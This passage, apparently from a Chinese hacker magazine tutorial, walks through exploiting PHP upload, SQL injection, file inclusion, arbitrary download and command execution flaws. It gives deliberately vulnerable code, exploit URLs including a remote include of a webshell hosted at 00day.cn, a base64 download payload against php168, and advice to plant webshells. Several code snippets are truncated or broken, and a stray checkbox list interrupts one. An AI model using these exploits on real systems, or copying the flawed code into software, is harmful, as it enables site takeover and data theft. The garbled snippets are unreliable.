

好了，关于跨站漏洞就为大家介绍到这里，虽然简单，但是也不乏可以实际利用。

## 3. 上传漏洞

上传漏洞是非常可怕的漏洞，相信经常看“黑手”杂志的朋友都不会陌生，下面我们就来了解一下 PHP 语言环境下的上传漏洞！首先看看最原始的上传漏洞，代码如下：

```php
<?
$fname = $_FILES['MyFile']['name'];
$do = copy($_FILES['MyFile']['tmp_name'], $fname);
if ($do)
echo "上传成功<p>";
echo "http://" .$SERVER_NAME. "" .dirname($PHP_SELF)."/" .$fname."");
} else {
 echo "上传失败";
}
?>
<form ENCTYPE="multipart/form-data" ACTION="<?php echo ".$PHP_SELF."; ?>" METHOD="POST">
<input NAME="MyFile" TYPE="file">
<input VALUE="提交" TYPE="submit">
</form>
```

从以上代码可以看出，程序并没有对上传的文件做任何的过滤，所以我们可以直接上传一个 PHP 木马！大家可以把以上代码保存成一个 PHP 文件，下面就来测试一下这个漏洞！

我们用浏览器访问你保存的这个 PHP 文件，页面如图9所示。然后选择一个 PHP 木马进行上传，上传成功后就能看到我们的 PHP 木马了！如图10、图11所示。







接下来我再为大家介绍一种比较经典的 PHP 上传漏洞，漏洞代码如下：

```php
..........省略部分代码..........
$notypes = $notypes ? $notypes : ' .php| .asp| .exe| .dll';
if($type = file_type($upfile_name, $notypes)){
 exit("文件格式不正确");
}
............处理图片文件..............
..............省略部分代码............
```

从以上代码中可以看出，这个 PHP 程序只过滤了 php、asp、exe 和 dll 四种后缀，这就意味着我们能上传除这四种后缀以外的文件，如 asa、php3、jsp 和 aspx 等后缀的木马文件，这样就对网站造成了威胁。防范的方法很简单，就是设定允许上传的文件后缀，而不是设定不允许上传的文件后缀。

## 4. 注射漏洞

注射漏洞应该是每一位网络安全爱好者最熟悉和最常见的漏洞，攻击者通过注射漏洞可以把网站的所有数据都刺探出来，甚至危害到整个服务器的安全！接下来我们就来探究一下 PHP 环境下的注射漏洞。

PHP 中的注射漏洞类型按照宏观概念来分类的话，一共有4种：第一种是最常见的数字型注射；第二种是特殊型注射；第三种是字符型注射；而最后一种是隐蔽型注射。下面分别对这4种注射漏洞进行简单的介绍及利用。

##### A、数字型注射漏洞

首先我们来看一段代码：

```php
……省略……
$query="SELECT * FROM nohack where id = "$_GET["id"]"
```

从以上代码可以看出，变量 id 并没有做任何过滤就进入到数据库进行查询，这就导致其产生了经典的注射漏洞。如果我们要对这个注入点进行注射的话，只需要向其提交一个单引号“'”，如“http://www.nohack.cn/news.php?id=44”这个地址存在注射漏洞，我们可以提交“http://www.nohack.cn/news.php?id=44'”。由于 PHP 配置文件 php.ini 中的 magic_quotes_gpc 选项默认为打开，所以我们提交的单引号“'”会被转义为“\'”，这样就把单引号“'”转义成了普通的字符。因为 PHP 存在这个特性，所以使得很多字符型注射漏洞在无形中变成了鸡肋。

我们提交“http://www.nohack.cn/news.php?id=44'”进入到数据库时，就会变成这样的查询语句：“select * from nohack where id = 44\'”。由于单引号“'”被转义成了普通字符，失去了原有的特性，所以原本的数字型变量就会被当作字符型变量来处理，从而使得程序爆出错误信息。如图12、图13、图14所示，就是一个典型的数字型变量注射点的刺探过程。








##### B、字符型注射漏洞

字符型注射漏洞在 PHP 中有很大的局限性，原因前面已经说过了，PHP 配置文件 php.ini 中的 magic_quotes_gpc 选项默认是打开的，而这个选项的作用就是把“'”、“"”、“\”和 null 等特殊字符去掉其原本的特性，并转化成正常的字符，这就使得我们在 PHP 环境下进行字符型注射的时候产生了相当大的困难。

我们来看一段存在字符型注射漏洞的代码：

```php
……省略……
$query="SELECT * FROM nohack where id = '"$_GET["keyword"]"'";
$result=MYSQL_query($query);
……省略……
```

从以上代码可以看出，变量 keyword 并没有做任何过滤就进入数据库查询，这就产生了注射漏洞。但由于变量在进入数据库查询时两端都加上了单引号“'”，所以这个注射漏洞属于字符型注射漏洞。

因为 magic_quotes_gpc 的原因，上面的注射点可以说只是个鸡肋。但是在今年8月份的时候，80sec 安全组织公布了 PHP 一个被人遗忘的缺陷，就是 PHP 在对双字节编码时存在问题，导致我们可以绕过 magic_quotes_gpc 和一系列的转义函数。

可能有的朋友已经知道了 PHP 存在这么一个漏洞，但其认识还比较模糊，所以接下来我将会为各位读者详细地讲解一下 PHP 双字节编码漏洞的原理。

比如我们提交的正常 URL 是“http://www.nohack.cn/class=黑客”，这时把这个 URL 修改成“http://www.nohack.cn/class=黑客'”（最后多了个单引号）进行提交，是不会返回错误信息的，因为单引号“'”已经被转义成正常的字符，失去了其原有的特性，所以我们的攻击没有效果。但是如果我们利用双字节编码来进行攻击的话，效果就不一样了！

码后的字符串为“%D6%D0”，如果我们提交“%D6”是显示不出“中”字的，因为它变成了单字节的编码。但如果我们提交“%D6'”的话，PHP 就会帮我们把这个字符串转义为“%D6\'”，其 URL 编码即为“%D6%5c%27”。由于“%D6”是双字节的成员，所以在加上“%5c”后就会变成一个中文字符，也就是说，转义符“\”被融合到了双字节编码中，单引号“%27”没有被正确地转义，这样 magic_quotes_gpc 验证就被我们绕过了。

也许理解起来很难，多慢慢地看几遍吧，下面我们用实例来分析一下。请把以下代码保存为 hack4.php 文件并存放在网站的根目录下：

```php
<?php
$sa=$_GET[a];
$b=iconv("GBK","BIG5",$sa);
$c=mb_convert_encoding($sa,"UTF-8","GBK");
echo $b
?>
```

这段代码的作用是把 GBK 编码转换成 UTF-8 编码，我们用浏览器提交 URL：“http://127.0.0.1/2.php?a=nohack'”，返回的结果如图15所示。



从图15中可以看出，我们提交的单引号“'”已经被“\”转义成普通的字符了，现在试试利用双字节编码漏洞来绕过它的认证。提交“http://127.0.0.1/2.php?a=nohack%D6'”，返回的结果如图16所示。



呵呵，从图16中可以看到，我们已经成功地绕过了 magic_quotes_gpc 认证。现在明白原理后，就来对刚才的注射点提交这样的参数：“http://www.nohack.cn/class=黑客%D6'”。由于转义符“\”被融合到了双字节编码中，所以单引号保留了原本特有的性质，使得注射攻击能被成功利用！由于“黑客%D6%5c”在数据库中是不存在的（即为假），所以我们必须使用 or 来进行注射。如图17、图18、图19所示，是典型的双字节编码漏洞注射刺探。



##### C、特殊型注射漏洞

这个类型的注射漏洞听起来可能有点奇怪，怎么个特殊呢？其特殊就在于我们可以利用 PHP 程序某个存在逻辑编写错误的变量进行注射攻击。具体怎么实现呢？请往下看！先来一段代码。

```php
……省略……
elseif($type=='like') {
$SQL.=
```

- □ 文章（总数：0）
- □ 下载（总数：0）
- □ 图片（总数：0）
- □ 信息（总数：0）
- □ 影视（总数：0）

```php
if(!$webdb[viewNoPassArticle]){
$SQL.=' AND yz=1';
}
$SQL=" WHERE $SQL ORDER BY $ORDER DESC LIMIT $rows";
$which='*';
$listdb=list_article($SQL,$which,$leng);
……省略……
```

从代码中可以看出，变量 keyword 被 urldecode() 函数过滤后就进入了 list_article() 函数。在经过 urldecode() 函数过滤后的字符串可以绕过 magic_quotes_gpc 认证，也就是说若我们提交“%2527”这个编码的话，程序会帮我们自动转换成单引号“'”，并不受 magic_quotes_gpc 认证的影响。

我们再来看看 list_article() 函数是怎么写的，代码如下：

```php
……省略……
function list_article($SQL,$which='*',$leng=40){
global $db,$pre;
$query=$db->query("SELECT $which FROM {$pre}article $SQL");
while($rs=$db->fetch_array($query)){
if($rs[mid]){
$s_rss=$db->get_one("SELECT * FROM {$pre}article_content_{$rs[mid]} WHERE aid='{$rs[aid]}' LIMIT 1");
$s_rss && $rs=$rs+$s_rss;
}
$rs[content]=@preg_replace('/<([^>]*)>/is',"",$rs[content]);
if($rs[smalltitle]){
$title=$rs[smalltitle];
}else{
$title=$rs[title];
}
$rs[title]=get_word($rs[full_title]=$title,$leng);
if($rs[titlecolor]||$rs[fonttype]){
$titlecolor=$rs[titlecolor]?"color:$rs[titlecolor];":"";
$font_weight=$rs[fonttype]==1?"font-weight:bold;":"";
$rs[title]="{$rs[title]}{$titlecolor}{$font_weight}";
}
$rs[posttime]=date("Y-m-d",$rs[full_posttime]=$rs[posttime]);
if($rs[picurl]){
$rs[picurl]=tempdir($rs[picurl]);
}
$listdb[]=$rs;
}
return $listdb;
}
……省略……
```

可以看出变量 keyword 并没有做任何过滤就进入了数据库进行查询，由于有 urldecode() 函数的过滤，所以只要我们把会被转义的字符（如单引号）进行编码，这样就可以进行注射攻击了。

##### D、隐蔽型注射漏洞

隐蔽型注射漏洞一般由 $_SERVER 函数引起，在 PHP 版本大于 5 的情况下，$_SERVER 函数中的参数不会受到 magic_quotes_gpc 的影响，现在我们来测试一下这个漏洞。

把以下代码保存为 hack5.php 文件并存放在网站的根目录下：


```php
<?
echo "a=
```

这段代码的含义是把 `$_GET[a]`、`$_SERVER['HTTP_X_FORWARDED_FOR']`、`$_SERVER['HTTP_REFERER']` 和 `$_SERVER['QUERY_STRING']` 输出到网页中。我们现在利用“寂寞的刺猬”大哥写的“POST 提交工具”来测试一下这个缺陷，测试的结果如图20所示。



从图20中可以看出，除了变量 `$_GET[a]` 被 magic_quotes_gpc 认证转义之外，其他三个 `$_SERVER` 变量均没有被转义，这就说明，如果一个 PHP 程序中有 `$_SERVER` 变量在进入数据库查询时没有进行过滤，那么我们完全可以无视 magic_quotes_gpc 认证的存在来进行注射攻击。

好了，PHP 环境下4种类型的注射攻击就为大家介绍到这里，继续来了解其它漏洞吧！

## 5. 远程/本地文件包含漏洞

文件包含漏洞是一种危害性极大的漏洞，攻击者利用它可以直接向目标网站写入 webshell。文件包含漏洞一般分为两种：一种是本地文件包含，另一种是远程文件包含。

##### A、远程文件包含漏洞

首先我们来看一段代码：

```php
<?php
$a=$_GET[a];
include($a);
?>
```

从代码中可以看出，变量 a 在通过 $_GET 取值后并没有做任何过滤就被 include() 函数包含了。由于我们能控制变量 a 的值，所以如果我们为变量 a 赋一个含有 PHP 代码的值，那么不就可以获得 webshell 了吗？

首先上传一个 webshell 到我们的网站，保存的文件名为 shell.txt（假设地址为 http://00day.cn/shell.txt），然后提交“http://127.0.0.1/hack6.php?a=http://00day.cn/shell.txt”后就可以看到 PHP 木马的身影了，如图21所示。



##### B、本地文件包含漏洞

本地文件包含漏洞相对于远程文件包含漏洞来说有一定的局限性，下面我们来看一段存在本地文件包含漏洞的代码：

```php
<?php
$a=$_GET[a];
include("./upload/".$a);
?>
```

从代码中可以看出，变量 a 在经过 $_GET 赋值后被 include() 函数所包含。但是在包含变量 a 的时候，在其前面增加了一个“upload”目录，这使得我们只能包含站点的本地文件。

如果一般的 CMS 系统存在这样的漏洞，利用的思路是先注册一个用户，然后看看有没有上传的地方。找到上传点后上传一个含有 PHP 后门代码的文件（扩展名随意），然后再利用这个本地文件包含漏洞把文件包含进去。

这里假设我们已经上传了一个名为 shell.txt 的文件到 upload 目录，然后提交如下 URL：“http://127.0.0.1/hack7.php?a=shell.txt”，这样就可以看到 PHP 木马的身影了，如图22所示。



远程文件包含漏洞必须在 PHP 配置文件 php.ini 里的 allow_url_fopen 选项为 on 的时候才能利用，在 PHP 5 以前的版本中这个选项是默认开启的，但在 PHP 5 以后的版本中被默认关闭了，所以如果在 PHP 版本大于 5 的时候利用远程文件包含漏洞会有一定程度的局限性。但是我们可以先对目标网站进行旁注，然后往得到 webshell 的站点里写入一个存在 PHP 后门的文件，最后用目标网站的远程文件包含漏洞包含这个 shell 就 OK 了。

## 6. 逻辑型漏洞

逻辑型漏洞存在于任何语言环境中，而且它的形式是多种多样的。下面我们就来一起分析一下由“樱花浪子”发现的 php168 下载任意文件漏洞，漏洞存在于 job.php 文件，以下是## 非安全·黑客手册2008第一增刊

漏洞代码：

```php
……省略……
elseif($job=="download")
{
    $rsdb=$db->get_one("SELECT * FROM {$pre}article WHERE aid='$id'");
    $fidDB=$db->get_one("SELECT * FROM {$pre}sort WHERE fid='$rsdb[fid]'");
    ……省略……
    $surl=base64_decode($url);
    $fileurl=str_replace($webdb[www_url], "", $surl);
    ……省略……
```

从代码中可以看出，我们可以控制变量 url 来达到下载任意文件的目的，但是前提是必须先对变量的值进行 base64 编码。

例如我们要下载 index.php 文件，首先要对 index.php 进行编码，编码后的字符串为 “aW5kZXgucGhw”，如图23所示。



编码后我们就可以尝试下载 index.php 这个文件了，提交如下 URL：“http://127.0.0.1/php168/job.php?job=download&url=aW5kZXgucGhw” 后就可以发现浏览器弹出了一个下载对话框，而文件正是我们要下载的文件 index.php，如图24所示。



PHP 中的命令执行漏洞是一种危害极大的漏洞，攻击者可以利用这种漏洞来使得服务器以 WEB 进程权限来执行命令，若遇到设置不正确的主机，很可能直接威胁到整个服务器的安全。

下面我们来看几个程序的代码，首先把以下代码保存为 hack8.php 文件并存放在网站的根目录下：

```php
<?php
echo "<pre>";
$last_line = system("dir c:", $retval);
echo "</pre>";
echo "命令输出的最后一行: ". $last_line ."<br />";
echo "命令的返回值: ". $retval;
?>
```

保存好文件后我们用浏览器访问一下这个文件，执行的结果如图25所示。

